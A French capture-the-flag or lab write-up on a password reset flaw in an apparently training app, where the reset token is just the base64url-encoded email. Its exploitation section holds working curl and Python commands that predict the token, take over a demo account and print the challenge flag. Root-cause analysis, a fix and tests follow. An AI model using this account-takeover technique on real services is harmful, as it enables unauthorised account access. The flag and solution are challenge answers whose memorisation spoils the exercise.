

# A07 — Reset Route Roulette

## Vulnerability

Le jeton de réinitialisation de mot de passe n'était pas aléatoire : il était calculé uniquement à partir de l'adresse e-mail du compte, par un simple encodage base64url (`legacyResetToken`). Toute personne connaissant l'adresse d'un compte pouvait recalculer elle-même la valeur exacte du jeton, sans jamais avoir besoin de recevoir le message envoyé par le service de messagerie interne.

De plus, chaque nouvelle demande de réinitialisation pour un compte réactivait ce même jeton (`used_at=NULL`) et rafraîchissait son expiration, même s'il avait déjà servi : le contrôle d'usage unique existait, mais devenait sans effet puisque n'importe qui pouvait le remettre à zéro en redemandant simplement une réinitialisation.

En calculant ce jeton pour le compte de démonstration de Bruno, j'ai pu réinitialiser son mot de passe sans jamais accéder à sa boîte mail, et récupérer le flag renvoyé par la réponse de confirmation (enregistré dans `flag.txt`).

L'impact est une prise de contrôle de compte par toute personne connaissant l'adresse e-mail associée, sans aucune interaction avec le mécanisme de livraison du jeton. Il s'agit d'une défaillance d'authentification, OWASP Top 10:2025 A07 (Identification and Authentication Failures).

## Exploitation

Tout a été réalisé en local, sur le compte de démonstration de Bruno (`bruno.dupont@example.test`) uniquement.

1. J'ai déclenché une demande de réinitialisation publique, sans être connecté :

```bash
curl -s -X POST http://127.0.0.1:8080/api/auth/password-reset/request \
  -H "content-type: application/json" \
  -d '{"email":"bruno.dupont@example.test"}'
```

La réponse était le message générique attendu (`"Si le compte existe, un message a été créé."`), sans révéler le jeton ni confirmer l'existence du compte.

2. J'ai lu le code de génération du jeton dans `apps/api/src/security.ts` et de la route dans `apps/api/src/routes/auth.ts`, et identifié que le jeton ne dépendait que de l'e-mail.
3. J'ai calculé moi-même ce jeton, sans jamais consulter la boîte mail de Bruno :

```bash
python3 -c "
import base64
email = 'bruno.dupont@example.test'.lower()
token = base64.urlsafe_b64encode(email.encode()).decode().rstrip('=')
print(token)
"
```

Résultat : `YnJ1bm8uZHVwb250QGV4YW1wbGUudGVzdA`.

4. J'ai soumis ce jeton calculé, avec un nouveau mot de passe, à la route de confirmation :

```bash
curl -s -X POST http://127.0.0.1:8080/api/auth/password-reset/confirm \
  -H "content-type: application/json" \
  -d '{"token":"YnJ1bm8uZHVwb250QGV4YW1wbGUudGVzdA","password":"NouveauMotDePasse123"}'
```

5. L'API a répondu `{"ok":true,"flag":"FLAG{a07_50dc297190d026518641ef32}"}` : le mot de passe de Bruno a été changé par ce jeton prédit, sans avoir reçu l'e-mail de réinitialisation.

Preuve : `vulnerability.png` (réponse de confirmation avec le flag).

## Root Cause

**1. Un jeton déterministe, calculable sans aucun secret (`apps/api/src/security.ts`).** `legacyResetToken` ne faisait qu'encoder l'adresse e-mail en base64url :

```ts
export const legacyResetToken = (email: string) => Buffer.from(email.toLowerCase(), 'utf8').toString('base64url');
```

Ce n'est pas un chiffrement ni un tirage aléatoire, c'est un simple changement de représentation d'une information déjà connue de l'appelant. Deux entrées identiques (la même adresse) produisaient toujours la même sortie : c'est exactement le symptôme remonté par le support (« la roue tombe toujours sur le même numéro »).

**2. Une réactivation involontaire du jeton à chaque nouvelle demande (`apps/api/src/routes/auth.ts`).** La route de demande de réinitialisation insérait le jeton avec une clause de conflit qui remettait systématiquement `used_at` à `NULL` :

```ts
await pool.query(
  `INSERT INTO password_reset_tokens(token_hash,user_id,expires_at)
   VALUES($1,$2,now()+interval '15 minutes')
   ON CONFLICT(token_hash) DO UPDATE
   SET user_id=excluded.user_id,expires_at=excluded.expires_at,used_at=NULL`,
  [tokenDigest(resetToken), account.id]
);
```

Comme `token_hash` était toujours le même pour un e-mail donné, chaque nouvelle demande de réinitialisation réactivait le même jeton et rafraîchissait son expiration, qu'il ait déjà été utilisé ou non. Le contrôle d'usage unique (`used_at IS NULL` dans la route de confirmation) existait bien, mais devenait inopérant : il suffisait de redemander une réinitialisation, ce qu'un attaquant pouvait faire lui-même sans connaître le mot de passe du compte, pour le remettre à zéro.

**3. Le bon mécanisme existait déjà dans le projet, mais n'était pas utilisé ici.** `newToken()`, défini dans le même fichier et déjà utilisé pour les jetons de session à la connexion, produit un aléa cryptographique réel : `randomBytes(32).toString('base64url')`. Deux appels successifs, même pour le même compte, produisent des valeurs différentes, et aucune information connue de l'appelant ne permet de la deviner. C'est exactement ce que `legacyResetToken` aurait dû utiliser dès le départ.

**Pourquoi corriger un seul point ne suffit pas.** Remplacer uniquement `legacyResetToken` par `newToken()` empêche de prédire un nouveau jeton, mais la clause `ON CONFLICT ... used_at=NULL` resterait un problème latent si un jeton redevenait un jour prévisible. Avec un aléa de 256 bits, la probabilité d'une collision entre deux `token_hash` est négligeable : la clause de conflit devient alors une protection défensive sans incidence pratique, plutôt qu'un vrai risque.

## Remediation

J'ai appliqué les modifications suivantes :

- **`apps/api/src/routes/auth.ts`** : dans `POST /api/auth/password-reset/request`, `legacyResetToken(account.email)` est remplacé par `newToken()`, qui réutilise le même mécanisme d'aléa cryptographique que les jetons de session (`randomBytes(32)`). L'import de `legacyResetToken` est retiré.
- **Suppression du flag pédagogique** : dans `POST /api/auth/password-reset/confirm`, le bloc conditionnel qui renvoyait le flag pour l'identifiant de Bruno est retiré. La réponse à une réinitialisation réussie est maintenant simplement `{ ok: true }`, pour tous les comptes.
- **Code inchangé** : la clause `ON CONFLICT(token_hash) DO UPDATE ... used_at=NULL` est conservée, car elle n'a plus d'incidence pratique une fois le jeton réellement aléatoire. Toute la gestion transactionnelle existante reste identique : expiration à 15 minutes, contrôle `used_at IS NULL`, et révocation des sessions existantes (`DELETE FROM sessions WHERE user_id=$1`) après un changement de mot de passe.

Pour obtenir le jeton de test légitime sans jamais l'exposer dans l'API de demande de réinitialisation ni publier de port de service, j'ai interrogé `fake-mail` depuis l'intérieur du réseau Docker, où ce service tourne sans être accessible depuis l'hôte :

```bash
docker compose exec app node -e "
fetch('http://fake-mail:8082/messages')
  .then(r => r.json())
  .then(d => console.log(JSON.stringify(d, null, 2)));
"
```

Cette commande s'exécute dans le conteneur `app`, qui partage le réseau Docker interne `lab` avec `fake-mail` ; elle appelle ce service par son nom DNS Docker (`fake-mail:8082`), jamais via `127.0.0.1` depuis ma machine. Le port de `fake-mail` n'est publié nulle part dans `compose.yaml`, et le jeton n'apparaît à aucun moment dans une réponse de l'API HolbieTrips elle-même : il n'est visible que dans le message capturé par le simulateur de messagerie, exactement comme un vrai destinataire y accéderait. La réponse a confirmé le jeton reçu (`resetToken: "ImLa2r4Kb7WlZzLTSu-tdODpQEZHttE6siODjgT7Hvc"`), que j'ai ensuite soumis à `POST /api/auth/password-reset/confirm` pour vérifier le parcours légitime.

Cette méthode manuelle est complémentaire de celle utilisée dans la suite de tests automatisés (voir la section Verification), où l'appel réseau vers `fake-mail` est intercepté directement dans le code plutôt que d'interroger un service réellement démarré — les deux répondent à la même exigence, l'une pour une vérification manuelle sur l'environnement réel, l'autre pour une suite de tests qui n'a pas besoin que `fake-mail` tourne.

Après la correction, j'ai vérifié les deux côtés du comportement :

1. **Parcours légitime** : en récupérant le vrai jeton envoyé au service de messagerie interne, la confirmation a réussi normalement (`{"ok":true}`), sans flag.
2. **Rejeu de l'ancienne attaque** : en soumettant exactement le même jeton calculé au début (`YnJ1bm8uZHVwb250QGV4YW1wbGUudGVzdA`), la réponse a été `{"error":"Jeton invalide ou expiré"}` — ce jeton ne correspond plus à rien de réellement stocké en base.

Preuve : `remediation.png` (même tentative qu'au début, désormais rejetée).

## Verification

J'ai étendu `tests/api/a07-authentication-failures.test.ts`, en conservant les deux tests existants (qui documentent des propriétés des fonctions `legacyResetToken` et `newToken`, inchangées en elles-mêmes) et en ajoutant quatre nouveaux tests :

- **Régression de sécurité** : une demande de réinitialisation est faite pour Bruno, puis le jeton prévisible (calculé avec `legacyResetToken`) est soumis à la confirmation. La réponse est `400`, sans flag, et aucune session n'a été révoquée.
- **Test métier positif de bout en bout** : pour récupérer le vrai jeton généré par la route sans dépendre d'un service `fake-mail` réel, j'ai intercepté l'appel réseau (`fetch`) effectué en interne par `internalJson` vers ce service, et extrait `resetToken` du corps de la requête interceptée. Ce jeton est ensuite soumis à la confirmation : la réponse est `200` avec `{ ok: true }`, sans flag, et les sessions existantes du compte sont bien révoquées.
- **Jeton expiré rejeté** : une ligne de jeton avec une date d'expiration passée est insérée directement dans un double de pool à état, et la confirmation est refusée (`400`).
- **Jeton déjà utilisé rejeté** : une ligne de jeton avec `used_at` déjà renseigné est simulée de la même façon, et la confirmation est refusée (`400`).

J'ai exécuté la suite complète dans Docker (`docker compose build app` puis `docker compose run --rm --no-deps app npm test`) : 14 fichiers de tests et 42 tests passent, sans régression sur les autres défis.

Après les tests manuels, j'ai restauré les données de démonstration (`docker compose down -v` puis `docker compose up --build -d`), car l'exercice avait modifié les mots de passe de Bruno et d'Alice pendant l'investigation.

Preuve : `passing-tests.png` (suite complète au vert, dont les six tests A07).

